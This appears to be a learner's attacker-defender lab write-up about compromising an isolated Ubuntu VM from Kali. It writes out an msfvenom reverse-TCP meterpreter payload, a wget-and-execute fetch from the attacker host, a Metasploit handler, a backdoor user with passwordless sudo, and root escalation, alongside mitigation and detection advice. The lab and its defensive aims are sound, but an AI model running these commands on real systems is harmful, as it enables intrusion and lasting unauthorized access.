 # ATTACKER-DEFENDER LAB

Author: Bobo Nikolov
Date: 27-10-2025
Status: In Progress (Defender / SecurityOnion phase next)


---


### Objective
Build isolated attacker <> victim lab to demonstrate reconnaissance, initial access, execution, persistence, and privilege escalation — then add a defender (SecurityOnion) to capture telemetry and create detections.

### Architecture and Scope
"lab_attacker" - Kali Linux(Internal Network(labnet)/NAT)IP 10.10.10.10
"lab_victim" - Ubuntu Linux(Internal Network(labnet)/Internal Network(intnet))IP 10.10.10.20
"Network" - Internal Network only(Isolated)
"Snapshot" - Created before testing and reverted again for repeatability.

NOTE: All work is performed on my VM's only!


---


  ## ENUMERATION 
  
(In linux terminal)Run:
nmap -sS -sV 10.10.10.20
![Enumeration](Projects/attack-defend-lab/Evidence/2025-10-27_05-52_AM_Screenshot_Enumeration_.png)


---


  ## INITIAL ACCESS AND EXECUTION

 ### Summary
Created a small Linux meterpreter ELF payload on attacker host, served it via HTTP server, fetched and executed it on the victim, then handled the incoming meterpreter session from Metasploit.

 ### Artifacts / screenshots
Payload creation: 

![Payload creation](Projects/attack-defend-lab/Evidence/2025-10-27_15-32-08_Payload_Creation_Initial_Access_Execution.png)

Serving payload:

![Serving payload](Projects/attack-defend-lab/Evidence/2025-10-27_15-38-08_Serving_Payload_Initial_Access_Execution.png)

Payload downloaded on victim: 

![Payload on victim](Projects/attack-defend-lab/Evidence/2025-10-27_15-42-04_Payload_On_Victim_Initial_Access_Execution.png)

Exploit/run and handler: 

![Exploit run & handler](Projects/attack-defend-lab/Evidence/2025-10-27_15-47-45_Exploit_Run_And_Waiting_Initial_Access_Execution.png)

![Victim ran payload](Projects/attack-defend-lab/Evidence/2025-10-27_15-55-57_Victim-Ran-Payload_Initial-Access-Execution.png)

Successful execution(meterpreter/shell proof):

![Success / meterpreter proof](Projects/attack-defend-lab/Evidence/2025-10-27_15-58-31_Successful-Execution_Initial-Access-Execution.png)

 ### What I did
Generated a Linux ELF reverse-TCP payload on the attacker:
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -O shell32.elf

 ### Served the payload from attacker
python3 -m http.server 8000 --bind 10.10.10.10

 ### On the victim fetched and executed it 
wget http://10.10.10.10:8000/shell32.elf -O /tmp/shell && chmod +x /tmp/shell

 ### Started a multi handler on Metasploit
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter/reverse_tcp
set LHOST 10.10.10.10
set LPORT 4444


---


   ## PERSISTANCE
   
 ### Summary
To demonstrate persistance detection and to create realistic defender telemetry for the upcoming SecurityOnion phase, a benign backdoor user was created and a sudoers entry added. All were documented and snapshot was reverted.

 ### Artifacts / Screenshots
-Persistance (new user created): 'evidence/2025-10-27_17-59-25_Persistance-New-User_Persistance.png'

 ### Commands Executed
sudo useradd -, -s /bin/bash backdoor_user //Creating a new user
echo 'backdoor_user:P@ssword123!' | sudo chpasswd //Setting a password

// Add sudoers entry (NOPASSWD) to simulate privilege-capable persistence

echo 'backdoor_user ALL=(ALL) NOPASSWD:ALL' | sudo tee /etc/sudoers.d/backdoor_user
sudo chmod 440 /etc/sudoers.d/backdoor_user


---


   ## PRIVILEGE ESCALATION
   
 ### Summary
After intitial access, local privilege escalation was demonstrated - minimal proof (whoami / id) captured to validate root access. This was performed only to verify impact for detection engineering.

 ### Artifact / Screenshot
-Privilege escalation(root obtained): 'evidence/2025-10-27_18-49-33_Privilege-Escalation.png'

 ### Proof commands / notes
// From the interactive shell on meterpreter > shell
whoami
id

//In some cases a known local vector was used and 'sudo /bin/bash' or similar verified root:
sudo /bin/bash
whoami //lead to root


---


   ## CONCLUSION

This lab demonstrated a complete attacker workflow in an isolated environment: reconnaissance, payload creation and delivery, successful remote code execution, a persistence demonstration, and local privilege escalation (proof-of-concept). The aim was not to cause damage but to produce realistic telemetry and artifacts that a defender can use to tune detections and playbook responses.

The environment was fully isolated and snapshotted before testing; all changes were reverted after evidence capture. This project serves as a foundation for the defender phase (SecurityOnion), where I will ingest network and host telemetry and author detection rules.


---


   ## LESSION'S LEARNED AND MITIGATION

  ### Takeaways
  
- Simple file-download + execute flows are a high-risk vector (e.g. `wget` + `chmod` + run). Prevent by restricting outbound HTTP to unapproved hosts and enforcing execution policies.
- Creation of sudoers/NOPASSWD entries is a common persistence pattern — monitor `/etc/sudoers.d/` and user creation events.
- Local privilege escalation vectors (SUID binaries, misconfigured services) remain a rapid path to full compromise — remove unnecessary SUID/privileged binaries and harden kernel/service updates.

 ### Recommended mitigation
  
- Block unneeded inbound services; harden public-facing services.
- Enforce least privilege and MFA for administrative access.
- Instrument hosts with sysmon/auditd and forward to your SIEM; create alerts for: unexpected `wget`/`curl` + `chmod +x`, new `/etc/sudoers.d/` files, and new user creation.
- Add network egress restrictions to limit direct payload fetch from attacker-controlled HTTP servers.


---


  ### Next steps (roadmap)

- SecurityOnion integration (planned): deploy sensor/manager, ingest Zeek/Suricata logs, simulate the attack again, and capture detection telemetry.  
- Detection engineering: write Sigma/Suricata rules and Splunk/SO correlation searches for this scenario.  
- Lateral movement (optional): expand the lab to include a second internal host to demonstrate lateral movement and network-based detection. (WIP — planned for next iteration)


---


  ## Appendix – Commands & Artifacts

Important commands used (sanitized)

```bash
# Recon
nmap -sS -sV 10.10.10.20

# Payload creation
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell32.elf

# Serve payload
python3 -m http.server 8000 --bind 10.10.10.10

# Victim (lab-only)
wget http://10.10.10.10:8000/shell32.elf -O /tmp/shell && chmod +x /tmp/shell && /tmp/shell

# Persistence (lab-only)
sudo useradd -m -s /bin/bash backdoor_user
echo 'backdoor_user:Password123!' | sudo chpasswd
echo 'backdoor_user ALL=(ALL) NOPASSWD:ALL' | sudo tee /etc/sudoers.d/backdoor_user
sudo chmod 440 /etc/sudoers.d/backdoor_user



